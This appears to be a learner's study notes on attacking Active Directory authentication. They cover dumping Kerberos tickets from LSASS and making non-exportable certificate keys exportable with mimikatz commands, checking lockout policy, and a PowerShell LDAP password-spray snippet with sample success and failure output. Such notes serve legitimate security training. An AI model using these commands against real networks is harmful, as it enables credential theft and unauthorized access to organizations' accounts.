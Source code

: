 another approach:
Kerberos authentication exploit of TGT and service ticket
we can just go grab the stored tickets in LSASS

need to get a service ticket first:
interact with smb or other serivce

dump tickets with:
sekurlsa::tickets

getting service ticket means only that service is compromised
getting TGT means we can get TGS 

mimikatz can export tickets to hard drive and import tickets to LSASS

Public Key Infrastructure in AD:
AD:: Active Directory Certificate Services (AD CS) to implment PKI
exchange certificates between authed user and service

server is installed as Certificate Authority: it can issue and revoke certificates

we can issue certs for web servers to use HTTPS or to auth user based on certs from CA using Smart Cards

certs may be marked as non-exportable private key, private key of that cert can't be exported even with admin

we can do a mimikatz:
crypto::capi
crypto::cng
making non exportable keys exportable


Performing Attacks on Active Directory Authentication

Password Attacks

bruteforce means account lockout, loud and unstable for prod

we can review domain account policy:
net accounts

focus on Lockout threshold, Lockout observation window

3 kinds of password spay

1. LDAP && ADSI low and slow aginst AD user
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<username>", "<password>")

if password is correct:
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com

if wrong:
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or
password is incorrect.
"
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemException
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.FormatDefaultCommand
